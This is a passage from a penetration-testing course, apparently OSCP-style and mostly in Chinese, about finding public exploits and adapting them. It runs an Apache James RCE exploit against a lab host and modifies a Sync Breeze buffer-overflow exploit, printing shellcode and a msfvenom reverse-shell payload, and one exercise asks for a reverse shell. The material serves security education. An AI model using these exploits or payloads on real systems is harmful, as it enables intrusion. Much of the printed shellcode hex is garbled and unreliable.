http-awststatstotals-exec.nse:Exploits a remote code execution vulnerability in Awststats Totals 1.0 up to 1.14

http-axis2-dir-traversal.nse:Exploits a directory traversal vulnerability in Apache Ax is2 version 1.4.1 by

http-fileupload-exploiter.nse:Exploits insecure file upload forms in web applications

...
```

Listing 414 - 列出包含“Exploits”一词的 NSE 脚本

我们可以通过运行带有 `--script-help` 选项后跟脚本文件名的 `nmap` 来列出特定 NSE 脚本的信息：

```bash
kali@kali:~$ nmap --script-help=clamav-exec.nse

Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-17 13:41 MDT

clamav-exec

Categories: exploit vuln

https://nmap.org/nsedoc/scripts/clamav-exec.html

Exploits ClamAV servers vulnerable to unaauthenticated clamav command execution.

ClamAV server 0.99.2, and possibly other previous versions, allow the execution of dangerous service commands without authentication. Specifically, the command 'SCAN' may be used to list system files and the command 'SHUTDOWN' shut downs the service. This vulnerability was discovered by Alejandro Hernandez (nitr0us).
```

<sup>373</sup> (Ahrefs Pte. Ltd., 2018), https://ahrefs.com/blog/google-advanced-search-operators/

<sup>374</sup> (Nmap, 2019). https://nmap.org/book/nse.html

该脚本在未带参数时测试命令 'SCAN' 的可用性。

参考：
- [https://twitter.com/nitr0usmx/status/740673507684679680](https://twitter.com/nitr0usmx/status/740673507684679680)
- [https://bugzilla.clamav.net/show_bug.cgi?id=11585](https://bugzilla.clamav.net/show_bug.cgi?id=11585)

*列表 415 - 使用 Nmap NSE 获取脚本信息*

这提供了关于漏洞及外部信息资源的信息。

### 14.2.2.3 浏览器利用框架 (BeEF)

浏览器利用框架 (BeEF)³⁷⁵ 是一个专注于在 Web 浏览器中执行客户端攻击的渗透测试工具。不用说，它包含了大量利用工具。

要列出可用的利用工具，我们首先必须启动所需的服务。在 Kali Linux 中，可以使用 `beef-xss` 命令自动完成此操作：

```
kali@kali:-$ sudo beef-xss

[*] Please wait as BeEF services are started.

[*] You might need to refresh your browser once it opens.

[*] UI URL: http://127.0.0.1:3000/ui/panel

[*] Hook: <script src="http://<IP>:3000/hook.js"></script>

[*] Example: <script src="http://127.0.0.1:3000/hook.js"></script>
```


# 列表 416 - 在 Kali Linux 中启动 BeEF 服务

我们可以使用默认凭据 `beef/beef` 访问 `http://127.0.0.1:3000/ui/panel` 登录到框架的主界面：


*图 258: BeEF 主登录页面*

登录后，我们需要 Hook 一个受害者的浏览器。由于高级 Hooking 不在本模块的范围内，我们将仅通过点击高亮的演示页面链接来使用框架提供的演示页面。这将允许 BeEF Hook 我们的浏览器：

官方网站：`http://beefproject.com/`

## 入门指南

欢迎使用 BeEF！

在能够完全探索框架之前，你需要“Hook”一个浏览器。首先，你可以将浏览器指向基本的演示页面 `here`，或者高级版本这里。

如果你想要 Hook 任何页面（当然只是为了调试原因），请拖动以下书签链接到浏览器书签栏中，然后在另一个页面上简单点击快捷方式：Hook Me!

当浏览器被 Hook 到框架中后，它们将出现在左侧的“Hooked Browsers”面板中。Hook 的浏览器将根据它们最近轮询框架的时间显示为在线或离线状态。

## Hooked Browsers

要与 Hook 的浏览器交互，只需左键点击它，一个新的标签页将出现。每个 Hook 的浏览器标签页包含若干子标签页，描述如下：

1.  `Main（主标签）`：在你运行了一些命令模块后，显示关于被 Hook 浏览器的信息。
2.  `Logs（日志）`：显示与该特定被 Hook 浏览器相关的最近日志条目。
3.  `Commands（命令）`：此标签页是可以在被 Hook 浏览器上执行模块的地方。BeEF 的大部分功能都包含在这里。大多数命令模块由针对选定的被 Hook 浏览器执行的 Javascript 代码组成。命令模块能够执行通过 Javascript 实现的任何操作；例如，它们可以收集有关被 Hook 浏览器的信息，操纵 DOM，或执行其他活动，例如利用被 Hook 浏览器本地网络中的漏洞。

每个命令模块都有一个红绿灯图标，用于指示以下情况：

-   🟢 该命令模块针对目标有效，且对用户不可见
-   🟠 该命令模块针对目标有效，但用户可能可见
-   ⚪ 该命令模块尚未针对此目标验证
-   🔴 该命令模块对此目标无效

4.  `XssRays`：`XssRays` 标签允许用户检查页面（浏览器被 Hook 的位置）的链接、表单和 URI 路径是否易受 XSS 攻击。
5.  `Rider`：`Rider` 标签允许你代表被 Hook 的浏览器提交任意 HTTP 请求。`Rider` 发送的每个请求都会记录在 History 面板中。点击历史记录项可查看 HTTP 响应的 HTTP 头信息和 HTML 源代码。
6.  `Network`：`Network` 标签允许你与被 Hook 的本地网络中的主机进行交互


图 259. 访问 BeEF 上的演示页面

一旦我们的浏览器被 Hook，它将出现在 BeEF 控制台的“Hooked Browsers”面板中，作为本地 IP `127.0.0.1`。点击我们的 IP（现在被称为僵尸）应该会显示一个新页面，其中包含关于我们受害者的浏览器细节。然后我们可以转到 `Commands` 标签，在那里我们可以找到各种枚举脚本和漏洞利用工具：


### 14.2.2.4 Metasploit 框架

`Metasploit` 是一个出色的框架，旨在协助漏洞利用工具的开发和执行。此框架在 Kali Linux 中默认提供，可以使用 `msfconsole` 命令启动：

```
kali@kali:-$ sudo msfconsole -q

msf >
```

列表 417 - 启动 Metasploit 框架

该框架的使用方法在另一个模块中有深入介绍，因此我们将仅专注于使用 `search` 命令列出框架内可用的漏洞利用工具。

为了演示，请考虑对流行的 `MS08_067` 漏洞的搜索：

```
msf > search ms08_067

Matching Modules

================

Name					Disclosure Date	Description

----					-----------------	----------

exploit/windows/smb/ms08_067_netapie	2008-10-28	MS08-067 Microsoft Server Service Relative Path Stack Corruption
```

列表 418 - 在 Metasploit 中搜索 ms08_067 漏洞利用工具

³⁷⁶ (Rapid7, 2019), https://www.metasploit.com
³⁷⁷ (Microsoft, 2019), https://docs.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067

`Metasploit` 的 `search` 命令包含许多关键字，帮助我们找到特定的漏洞利用工具。要列出所有可用选项，请使用 `-h` 选项运行 `search`：

```
msf5 > search -h

Usage: search [ options ] <keywords>

OPTIONS:

-h          Show this help information

-o <file>   Send output to a file in csv format

-S <string> Search string for row filter

-u          Use module if there is one result

Keywords:

aka         : Modules with a matching AKA (also-known-as) name

author      : Modules written by this author

arch        : Modules affecting this architecture

bid         : Modules with a matching Bugtraq ID

cve         : Modules with a matching CVE ID

edb         : Modules with a matching Exploit-DB ID

check       : Modules that support the 'check' method

date        : Modules with a matching disclosure date

description : Modules with a matching description

full_name   : Modules with a matching full name

mod_time    : Modules with a matching modification date

name        : Modules with a descriptive name

path        : Modules with a matching path

platform    : Modules affecting this platform

port        : Modules with a matching port

rank        : Modules with a matching rank (Can be descriptive (ex: 'good') or numeric)

ref         : Modules with a matching ref

reference   : Modules with a matching reference

target      : Modules affecting this target

type        : Modules of a specific type (exploit, payload, auxiliary, encoder, evasion, post, report)

Examples:

search cve:2009 type:exploit
```


## 14.3 将所有内容结合起来

在涵盖所有资源之后，让我们演示一下在真实场景中这看起来会是什么样。我们将攻击我们专用的 Linux 客户端，该客户端托管了一个易受公开漏洞利用工具攻击的应用程序。

我们通过运行 `nmap` 来确定机器向网络暴露了哪些服务，从而开始我们的枚举过程：

```bash
kali@kali:~# sudo nmap 10.11.0.128 -P- -sV -vv --open --reason
```

```
Scanning 10.11.0.128 [65535 ports]

Discovered open port 3389/tcp on 10.11.0.128

Discovered open port 110/tcp on 10.11.0.128

Discovered open port 25/tcp on 10.11.0.128

Discovered open port 22/tcp on 10.11.0.128
```


```
Discovered open port 119/tcp on 10.11.0.128
Discovered open port 4555/tcp on 10.11.0.128
Completed SYN Stealth Scan at 14:23, 49.03s elapsed (65535 total ports)
Initiating Service scan at 14:23
Scanning 6 services on 10.11.0.128
Completed Service scan at 14:23, 11.47s elapsed (6 services on 1 host)
NSE: Script scanning 10.11.0.128.

\Nmap scan report for 10.11.0.128
Host is up, received arp-response (0.15s latency).
Scanned at 2019-04-13 14:22:57 EEST for 61s
Not shown: 65304 closed ports, 225 filtered ports
Reason: 65304 resets and 225 no-responses
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit

| PORT | STATE | SERVICE | REASON | VERSION |
| :--- | :--- | :--- | :--- | :--- |
| 22/tcp | open | ssh | syn-ack ttl 64 | OpenSSH 7.4p1 Debian 10+deb9u3 (protocol 2) |
| 25/tcp | open | smtp | syn-ack ttl 64 | JAMES smtpd 2.3.2 |
| 110/tcp | open | pop3 | syn-ack ttl 64 | JAMES pop3d 2.3.2 |
| 119/tcp | open | nntp | syn-ack ttl 64 | JAMES nntpd (posting ok) |
| 3389/tcp | open | ms-wbt-server | syn-ack ttl 64 | xrdp |
| 4555/tcp | open | james-admin | syn-ack ttl 64 | JAMES Remote Admin 2.3.2 |

MAC Address: 00:50:56:93:2E:E7 (VMware)
Service Info: Host: debian; OS: (Linux); CPE: cpe:/o:linux:linux_kernel

Read data files from: `/usr/bin/../share/nmap`
Nmap done: 1 IP address (1 host up) scanned in 61.11 seconds
Raw packets sent: 76606 (3.371MB) | Rcvd: 71970 (2.879MB)
```

*Listing 420 - Using nmap to enumerate the exposed services on the dedicated Linux client*

Based on the output of our scan, it appears that the system is running an SSH server on TCP port 22, XRDP on TCP port 3389, and various services noted as "JAMES". Using Google to get more information on what the JAMES services are leads us to believe that our target is running Apache James.

In order to locate any available exploits, we will use the `searchsploit` tool:

```bash
kali@kali:~$ searchsploit james
```

| Exploit Title | Path |
| :--- | :--- |
| Apache James Server 2.2 - SMTP Denial | ./usr/share/exploitdb/exploits/multiple/dos/27915.pl |
| Apache James Server 2.3.2 - Remote Command Execution | exploits/linux/remote/35513.py |
| JAMES WebCam Publisher Beta 2.0, ... | exploits/windows/remote/944.c |

*Listing 421 - Using searchsploit to search for exploits targeting Apache James*

Amongst the results, it appears that one of the exploits is targeting the specific Apache James Server version 2.3.2. (378) A quick glance at this exploit shows that it takes the IP address as an argument and executes a specific command as root defined in the `payload` variable:

```python
payload = "[ `\"\${id -u}\" == \"0\"` ] && touch /root/proof.txt" # to exploit only on root
```

378 Offensive Security, 2014. https://www.exploit-db.com/exploits/35513


*Listing 422 - The payload executed as the root user upon exploitation*

Now that we have located our exploit, we will attempt to run it against our dedicated Linux client without any modifications.

```bash
kali@kali:~$ python /usr/share/exploitdb/exploits/linux/remote/35513.py 10.11.0.128

[+]Connecting to James Remote Administration Tool....

[+]Creating user...

[+]Connecting to James SMTP server...

[+]Sending payload...

[+]Done! Payload will be executed once somebody logs in.
```


### *Listing 423 - Running the exploit against our dedicated Linux client*

The exploit appears to have worked without any errors and it informs us that the payload will be executed once somebody logs in to the machine.

We connect to our dedicated Linux client to simulate a login that would normally occur from the victim and notice that we get additional clutter (from the exploit) that would not occur during a standard login session:

```bash
kali@kali:~$ ssh root@10.11.0.128

root@10.11.0.128's password:

...
-bash: $'\254\355\005sr\036org.apache.james.core.MailImpl\304x\r\345\274\317003\j': command not found
-bash: L: command not found
-bash: attribute$^java/util/HashMap: No such file or directory
-bash: L
                 errorMessage$^java/lang/String: No such file or directory
-bash: L
          lastUpdated$^java/util/Date: No such file or directory
-bash: Lmessage$^javax/mail/internet/MimeMessage: No such file or directory
-bash: $'L\004nameq~\002L': command not found
-bash: recipient$^java/util/Collection: No such file or directory
-bash: L: command not found
-bash: $'remoteAddrq~\002L': command not found
-bash: remoteHostq~\Le$en$er$tor$org/apache/mallet/MailAddress: No such file or directory
-bash: $'\221\222\204m\307(\244\002\003X\063pos\0 40hos$q~\002L\004user$q~\002xp': command not found
-bash: $'L\005team?q~\002x$p\035org.apache.maillet.MailAddress': command not found
-bash: @team.pl
Message-ID: <31878267.0.15551586592\10...JavaMail.root@debian>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: .../.../.../.../.../.../etc/bash_completion.d@localhost
Received: from vpn.hacker.localdomain (10.11.11.10)
          by debian (JAMES SMTP Server 2.3.2) with SMTP ID 330
          for <.../.../.../.../.../.../etc/bash_completion.d@localhost>;
          Sat, 13 Apr 2019 08:30:53 -0400 (EDT)
Date: Sat, 13 Apr 2019 08:30:53 -0400 (EDT)
From: team@team.pl
: No such file or directory
```


```bash
-bash: $'\r': command not found
root@debian:~#
```

### *Listing 424 - Logging in to the dedicated Linux client using SSH to simulate the victim*

If everything worked according to plan, we should see a `proof.txt` file under the `/root` directory.

```bash
root@debian:~# ls -lah /root/proof.txt
-rw-r--r-- 1 root root 0 Apr 13 08:34 /root/proof.txt
```


*Listing 425 - Verifying that the payload was executed upon logging in to the machine*

Very nice. It looks like the exploit was successful.

### 14.3.1.1 练习

- 1. 连接到你专属的 Linux 客户端，并使用 `/usr/local/james/bin/run.sh` 脚本启动存在漏洞的 Apache James 服务。
- 2. 使用端口扫描工具枚举目标，并利用横幅信息和网络搜索结果来确定机器上运行的软件。
- 3. 使用 `searchsploit` 工具在本模块提到的在线资源中查找针对该版本的漏洞利用。
- 4. 启动漏洞利用程序，并验证在登录到机器时负载是否被执行。
- 5. 尝试修改负载变量，以在目标机器上获取反向 Shell。

## 14.4 总结

在本模块中，我们讨论了运行由不可信作者编写的代码所带来的风险。我们还介绍了各种托管公开已知漏洞利用代码的在线资源，以及不需要 Internet 连接的离线资源。最后，我们介绍了一个场景，展示了如何使用这些在线资源来寻找针对在枚举阶段发现的目标软件版本的公开漏洞利用。


# 15. 修复漏洞利用

从头编写一个漏洞利用程序可能既困难又耗时。但在参与渗透测试时，寻找一个完全符合我们特定需求的公开漏洞利用程序同样可能既困难又耗时。一个很好的折中方案是修改公开漏洞利用程序以满足我们的特定需求。

然而，这种解决方案也存在挑战。对于内存破坏漏洞利用（如缓冲区溢出），我们可能需要修改基本的目标参数，例如套接字信息、返回地址、负载和偏移量。

理解这些要素至关重要。例如，如果我们的目标运行的是 Windows 2008 服务器，而我们试图运行一个针对 Windows 2003 服务器编写和测试的漏洞利用程序，较新的保护机制（如 ASLR）很可能会導致应用程序崩溃，这可能会在一段时间内锁定该攻击向量，或影响生产环境，这两种情况我们都应避免。

鉴于此，与其盲目发射不匹配的漏洞利用程序，我们应该始终仔细阅读漏洞利用代码，按需修改，并在尽可能的时候针对我们自己的沙箱目标进行测试。

> 这些变量解释了为什么像漏洞数据库379 这样的在线资源会为同一个漏洞托管多个漏洞利用程序，每个都是针对不同的目标操作系统版本和架构编写的。

我们还可以通过将漏洞利用程序移植到不同的编程语言中，以包含额外的预编写库并通过导入到攻击框架中来扩展漏洞利用功能，从而从中受益。

最后，编码为在特定操作系统和架构上运行的漏洞利用程序可能需要移植到不同的平台。例如，我们经常遇到需要在 Windows 上编译漏洞利用程序，但我们希望它在 Kali 上运行的情况。

在本模块中，我们将通过讲解修改公开漏洞利用代码以使其适应特定攻击平台和目标所需的步骤，来克服这些挑战。我们将探讨内存破坏漏洞利用和 Web 漏洞利用。

### 15.1 修复内存破坏漏洞利用

内存破坏漏洞利用，如缓冲区溢出，相对复杂且难以修改。在我们深入一个例子之前，我们应该讨论一下过程，并强调我们将面临的一些考虑因素和挑战。

## 15.1.1 概述与注意事项

标准堆栈溢出的一般流程（在用户模式下运行且未采用 DEP 和 ASLR 等缓解措施的应用程序中）相当直观。利用程序将执行以下操作：

- 创建一个大型缓冲区以触发溢出。
- 通过在大型缓冲区中填充适当的偏移量来覆盖堆栈上的返回地址，从而夺取 `EIP` 的控制权。
- 在缓冲区中包含选定的有效负载，并在其前面添加一个可选的 `NOP` 滑板。
- 选择一个正确的返回地址指令，例如 `JMP ESP`（或其他寄存器），以将执行流程重定向到我们的有效负载中。

此外，在完善利用程序的过程中，根据漏洞的性质，我们可能需要修改已部署缓冲区的元素，以适应目标，例如文件路径、IP 地址和端口、URL 等。如果这些修改改变了我们的偏移量，我们必须调整缓冲区长度，以确保用期望的字节覆盖返回地址。

虽然我们可以信任利用程序中使用的返回地址是正确的，但更负责任的替代方案是 ourselves 寻找返回地址，尤其是当使用的地址不属于易受攻击的应用程序或其 DLL 时。实现这一点的可靠方法之一是在本地虚拟机中克隆目标环境，然后对易受攻击的软件使用调试器，以获取返回地址指令的内存地址。

我们还必须考虑更改原始利用代码中包含的有效负载。

如前一模块所述，公共利用程序存在固有风险，因为它们通常包含经过十六进制编码的有效负载，必须通过逆向工程才能确定其工作方式。因此，我们必须始终审查公共利用程序中使用的有效负载，或者更好的做法是插入我们自己的有效负载。

当我们这样做时，我们显然会包含我们自己的 IP 地址和端口号，并可能排除某些不良字符，这些字符可以由我们自己确定，也可以从利用程序的注释中获取。

虽然只要有可能生成我们自己的有效负载是被建议的，但有些利用程序使用了自定义有效负载，而这些有效负载对于成功利用易受攻击的应用程序至关重要。如果是这种情况，我们唯一的选项是逆向工程该有效负载，以确定其工作方式以及执行它是否安全。这很困难，超出了本模块的范围，因此我们将专注于 shellcode 替换。

在我们重新利用利用程序时，必须牢记所有这些注意事项。

## 15.1.2 导入和检查利用程序

在本示例中，我们将再次针对 Sync Breeze Enterprise 10.0.28，正如我们在前面的模块中所做的那样，但我们将关注一个不同的利用程序。这将为我们提供一个针对目标环境的另一个可用利用程序，并让我们了解修改过程。

通过按产品和版本搜索，我们注意到有针对此特定漏洞的两个可用利用程序，其中一个是用 C 编写的：

```bash
kali@kali:~$ searchsploit "Sync Breeze Enterprise 10.0.28"
```

| 利用标题 | 路径 (/usr/share/exploitdb/) |
| :--- | :--- |
| Sync Breeze Enterprise 10.0.28 - 远程缓冲区溢出 | exploits/windows/remote/42928.py |
| Sync Breeze Enterprise 10.0.28 - 远程缓冲区溢出 | exploits/windows/dos/42341.c |

Listing 426 · 使用 `searchsploit` 搜索针对易受攻击软件的可用利用程序

由于我们已经熟悉漏洞的工作原理及其被利用的方式，因此我们有机会在不增加解开新漏洞复杂性的情况下，查看脚本语言（如 Python）和编译语言（如 C）之间的区别。

尽管这两种语言之间有很多不同之处，但我们将重点介绍两个主要区别，这些区别将影响我们，包括内存管理和字符串操作。

第一个关键区别在于，脚本语言是通过解释器执行的，而不是编译成独立的可执行文件。由于脚本语言需要解释器，这意味着我们无法在未安装 Python 的环境中运行 Python 脚本。这可能会限制我们在现场的操作，特别是当我们需要一个独立利用程序（如本地提权）且该利用程序必须在未预装 Python 的环境中运行时。

> 作为替代方案，我们可以考虑使用 PyInstaller (https://www.pyinstaller.org)，它将 Python 应用程序打包为适用于各种目标操作系统的独立可执行文件。然而，鉴于利用代码的细微差别，我们建议通过手动移植代码来完全了解利用程序在目标上的工作方式。

这两种语言之间的另一个区别是，在 Python 等脚本语言中，拼接字符串非常容易，通常采用两个字符串相加的形式：

```python
kali@kali:~$ python
>>> string1 = "This is"
>>> string2 = " a test"
>>> string3 = string1 + string2
>>> print string3
This is a test
```

Listing 427 · Python 中的字符串拼接示例

正如本模块后面讨论的那样，在 C 等编程语言中，不允许以这种方式拼接字符串。

为了开始修改我们的利用程序，我们将使用 SearchSploit 便捷的 `-m` 镜像（复制）选项，将目标利用程序[380]移至当前工作目录：

[380] (Offensive Security, 2017). https://www.exploit-db.com/exploits/42341/

```bash
kali@kali:~$ searchsploit -m 42341
    Exploit: Sync Breeze Enterprise 10.0.28 - Remote Buffer Overflow (PoC)
    URL: https://www.exploit-db.com/exploits/42341/
    Path: /usr/share/exploitdb/exploits/windows/dos/42341.c
```


File Type: C source, UTF-8 Unicode text, with CRLF line terminators

Copied to: `/home/kali/42341.c`

Listing 428 - 使用 `searchsploit` 将利用程序复制到当前工作目录

现在利用程序已镜像到我们的主目录，我们可以检查它以确定是否需要任何修改来编译该利用程序并使其在我们的目标环境中工作。

然而，甚至在考虑编译之前，我们注意到头文件（例如 `winsock2.h`[381]）表明该代码旨在 Windows 上编译：

```c
#include <nttypes.h>
#include <stdio.h>
#include <winsock2.h>
#include <windows.h>
```

Listing 429 - 显示利用代码开头的 C 头文件

虽然我们可以尝试在 Windows 上编译此代码，但我们将在 Kali 上对此利用程序进行交叉编译[382]。

## 15.1.3 交叉编译利用代码

为了避免编译问题，通常建议使用针对代码目标操作系统的原生编译器；然而，这并不总是可行的选择。

在某些情况下，我们只能访问单个攻击环境（如 Kali），但需要利用针对其他平台编写的利用程序。这时，交叉编译器就非常有用。

我们将在本节中使用非常流行的 `mingw-64` 交叉编译器。如果尚未存在，我们可以使用 `apt` 安装它：

```bash
kali@kali:~$ sudo apt install mingw-w64
```

Listing 430 - 在 Kali 中安装 mingw-64 交叉编译器

安装完成后，我们可以使用 `mingw-64` 将代码编译为 Windows PE 文件。[383] 第一步是查看利用代码是否能无错误编译：

```bash
kali@kali:~$ i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe
/tmp/syncbreeze_exploit.c:(.text+0x2e): undefined reference to `_imp__WSAStartup@8'
/tmp/syncbreeze_exploit.c:(.text+0x3c): undefined reference to `_imp__WSAGetLastError@0'
/tmp/syncbreeze_exploit.c:(.text+0x80): undefined reference to `_imp__socket@12'
/tmp/syncbreeze_exploit.c:(.text+0x93): undefined reference to `_imp__WSAGetLastError@0'
/tmp/syncbreeze_exploit.c:(.text+0xbd): undefined reference to `_imp__inet_addr@4'
```

[381] (Microsoft, 2018), https://msdn.microsoft.com/en-us/library/windows/desktop/ms737629(v=vs.85).aspx
[382] (Wikipedia, 2019), https://en.wikipedia.org/wiki/Cross-compiler
[383] (Offensive Security, 2015), https://forums.offensive-security.com/showthread.php?t=2206&p=8529

```
/tmp:syncbreeze_exploit.c:(.text+0xdd): undefined reference to `__imp__htons@4'
/tmp:syncbreeze_exploit.c:(.text+0x106): undefined reference to `__imp__connect@12'
/tmp:syncbreeze_exploit.c:(.text+0x14f): undefined reference to `__imp__send@16'
/tmp:syncbreeze_exploit.c:(.text+0x182): undefined reference to `__imp__closesocket@4'
collect2: error: ld returned 1 exit status
```

编译过程中出现了问题，尽管列表 431 中的错误信息可能看起来有些陌生，但简单地搜索一下 "`WSAStartup`" 就会发现这是 `winsock.h` 中的一个函数。进一步的研究表明，当链接器无法找到 `winsock` 库时会出现这些错误，并且向 `i686-w64-mingw32-gcc` 命令添加 `-lws2_32` 参数应该能解决问题：

```bash
kali@kali:~$ i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
kali@kali:~$ ls -lah
total 372K
drwxr-xr-x  2 root root 4.0K Feb 24 17:13 .
drwxr-xr-x 17 root root 4.0K Feb 24 15:42 ..
-rw-r--r--  1 root root 4.7K Feb 24 15:46 42341.c
-rw-r-xr-x  1 root root 355K Feb 24 17:13 syncbreeze_exploit.exe
```

列表 432 显示 `mingw32` 成功生成了一个可执行文件，且未产生任何编译错误。

### 15.1.3.1 练习

- 使用 Kali Linux 中的 `searchsploit` 工具查找本节讨论的漏洞利用代码。
- 在 Kali Linux 中安装 `mingw-w64` 工具集并编译该漏洞利用代码。

### 15.1.4 修改套接字信息

我们已经知道，此漏洞利用针对的是一个远程可访问的漏洞，这意味着我们的代码需要在某个时间点建立与目标的连接。

检查 C 代码后，我们注意到它使用了硬编码的 IP 地址和端口值。

```c
printf(">] Socket created.\n");
server.sin_addr.s_addr = inet_addr("10.11.0.22");
server.sin_family = AF_INET;
server.sin_port = htons(80);
```

这些将是我们需要在漏洞利用中首先调整的值。

### 15.1.4.1 练习

- 修改漏洞利用中的连接信息，以针对你 Windows 客户端上的 SyncBreeze 安装实例。
- 重新编译该漏洞利用，并使用 `Wireshark` 确认代码是否成功发起到你专用 Windows 客户端的套接字连接。

### 15.1.5 修改返回地址

进一步检查代码后发现，其中使用了位于 `msvbvm60.dll` 中的返回地址，而该 DLL 并非易受攻击软件的一部分。查看我们 Windows 客户端调试器中加载的模块时，我们发现该 DLL 缺失，这意味着该返回地址对于我们的目标无效。

鉴于我们已经拥有一个来自前一模块的可行漏洞利用，我们可以将目标返回地址替换为我们自己有效的地址。

```c
unsigned char retn[] = "\x83\x0c\x09\x10"; // 0x10090c83
```

Listing 434 - 更改返回地址

如果我们没有来自先前开发的漏洞利用的返回地址，我们有几个选择。第一个，也是最推荐的选项，是在本地重建目标环境并使用调试器来确定该地址。这是我们开发原始漏洞利用时使用的过程。

如果这不是一个选项，我们可以使用其他公开可用的漏洞利用中的信息，以获取与我们目标环境匹配的可靠返回地址。例如，如果我们需要在 Windows Server 2003 SP2 上寻找 `JMP ESP` 指令的返回地址，我们可以查找利用针对该操作系统不同漏洞的公开漏洞利用。这种方法可靠性较低，且会根据操作系统安装的保护措施而有很大差异。

作为替代方案，我们可以直接从目标机器获取返回地址。如果我们以非特权用户身份访问目标并想要运行一个提升特权的漏洞利用，我们可以将感兴趣的 DLL 复制到我们的攻击机器上，并使用各种工具（如反汇编器或甚至 Metasploit 框架中的 `msf pescape` [384]）来获取可靠的返回地址。

### 15.1.5.1 练习

- 找到任何有效的返回地址指令，并更改原始漏洞利用中存在的指令。

### 15.1.6 修改载荷

继续分析我们的 C 语言漏洞利用代码，我们注意到 `shellcode` 变量似乎保存了载荷。由于它以十六进制字节存储，我们不容易确定其用途。作者给出的唯一提示涉及 `shellcode` 变量中的一部分 `NOP` 滑移（`NOP slide`）：

```c
unsigned char shellcode[] =
```


"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" // NOP SLIDE

"\xdb\xda\xbd\x92\xbc\xaf\xa7\xd9\x74\x24\xf4\x58\x31\xc9\xbb"

"\x52\x31\x68\xa7\x83\x0c\x04\x03\xfa\xf7\x4d\x52\x06\x27\x13"

"\xd9\xf6\xb8\x74\x17\x13\x89\xb4\x43\x50\xba\x04\x07\x34\x37"

"\xee\xa5\xac\xcc\x82\x11\x31\x28\xb4\xea\x76\x01\x8e\x6d"

"\xf5\x58\xd9\xd4\x4c\x92\x2c\x8c\x01\xc1\xcd\xdc\xda\x84\x70"

"\xf0\xf6\xd0\x48\x7b\x23\xfc\x98\xf4\xf7\xf9\x0f\x8e\xa1"

"\xd9\xae\x43\xda\x53\xa8\x80\xe7\x2a\x43\x72\x93\xac\x85\x4a"

"\x5c\x02\xe8\x62\xaf\x5a\x2d\x44\x50\x29\xa4\xb6\xed\x2a\x9c"


```
"\xc4\x29\xbe\x06\xe6\x9b\x18\xe2\x8e\xb6\xfe\x61\x9c\xdb\x74"

"\xd2\x81\xda\x59\x46\xbd\x57\x5c\xb8\x37\x23\xb7\x0c\x1c\xf7"

"\xe2\x15\xf9\x56\x1a\x95\x20\xa0\xbe\xa0\x21\x53\xb1\x8"

"\x90\xfe\x6d\xd8\xbe\x89\xe1\xea\x61\x22\x88\x46\x69\xec\xf4"

"\xa8\xc0\x49\xdf\x57\xeb\x9a\x93\xb8\xf9\x60\x61\xc0\x0"

"\x70\xb4\x15\x35\x20\x14\xc5\xf6\x90\x4d\xb6\x9e\xfa\xda\xe8"

"\xbf\x05\x31\x82\x2a\xfc\xd2\x01\xaa\xfe\x32\xb3\x2f\xe2"

"\x9e\x34\x94\x6b\x0f\x11\x0f\x04\xb6\xb3\xdb\x53\x87\xf\xca"

"\xf6\xbc\x14\x57\xb8\x34\x50\x2d\xb5\x15\x31\x39\x48\x85"

"\x5d\x66\x58\x21\x9d\xe1\x41\xcd\xc4\x6a\x04\x9e\xa5\xee"

"\x8e\xbc\xa6\x76\xe8\x04\xd7\x4b\xa4\xe0\x04\x93\x95\xcc"

"\xf8\x5f\xc1\x80\xae\x09\xdf\xe6\x19\xf8\x69\x31\xf6\x52\xfd"

"\xc4\x34\x65\x7b\xc9\x10\x13\x63\x78\xcd\x62\x9c\xb5\x99\xe6"

"\x5\xab\x39\xc8\xc3c\x88\x59\x6f\x94\x85\xf2\x36\x7d\x24\x9f"

"\xc8\xa8\x6b\xa6\x4a\x58\x14\x5d\x29\x11\x39\xd4\xc2\x6b"

"\x32\xb1\xe4\x08\x33\x90"
```

*列表 435 - shellcode 变量的内容包括实际载荷前的 NOP 滑移*

由于我们已经在之前的漏洞利用研究中确定了坏字符，我们可以使用 `msfvenom` 生成自己的载荷。

```
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=10.1.0.4 LPORT=443 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b '\x08\x0a\x0d\x25\x26\x2b\x3d'

Found 11 compatible encoders

Attempting to encode payload with 1 iterations of x86/shikata_ga_nai

x86/shikata_ga_nai succeeded with size 351 (iteration=0)

x86/shikata_ga_nai chosen with final size 351

Payload size: 351 bytes

Final size of c file: 1500 bytes

unsigned char buf[] =

"\xbf\x8f\xf8\xd2\x43\xda\x55\x9\x74\x24\xf4\x58\x31\xc9\xb1"

"\xb2\x51\x78\x12\x03\x78\x12\x83\xc\x0c\x30\xb6\xf3\xb5\x4"

"\x29\xb6\x8d\xe58\x58\x5a\x2\x5b\xa0\x57\x8b\xa7\xe9\xd\x29\x54"

"\x02\x91\xa9\xe\x07\xc4\x15\xe8\xcc\x08\x1\x35\x2f\xd3\xa0"

"\xa4\x7c\x8d\xa2\xe3\x4e\x80\xb1\x24\xb8\x39\xf1\xfd\x8\xc"

"\xe5\x8a\xc2c\x8e\x1\x18\x35\x73\x91\xb1\xa4\x22\xb9\xa5"

"\xb6\xc5\x70\xfe\xff\xdd\x63\xb\x49\x56\x57\xb7\x48\x86\x89"

"\xb3\xe6\xff\x505\xcb\x6\x88\xa1\x34\xb8\x38\x41\x9c\xb5\x86"

"\xb\x15\x12\x13\xb8\xdd\x84\xff\xad\x32\x52\xf4\xff\x6\x86"

"\xe2\x46\xf5\x98\xf2\xd8\xbb\x6a\xf\xc\xe4\x9\x15\x8c"

"\xb\x7\x38\x9a\x7a\xe7\x5a\x45\x22\xda\x11\x8f\x37\x57\x78\xe5"

"\x4\x5a\x82\xf5\x92\xed\xf1\xc7\x3d\xa6\x9d\xb6\xb5\x8\x5a"

"\x88\xec\x35\xf4\x72\xf6\x46\xbd\xb8\x5b\x16\x75\x10\x4\xfd"

"\x85\xd\x51\x31\xd5\x31\x5a\x12\x85\xf1\xa\xb\xf6\x8f"

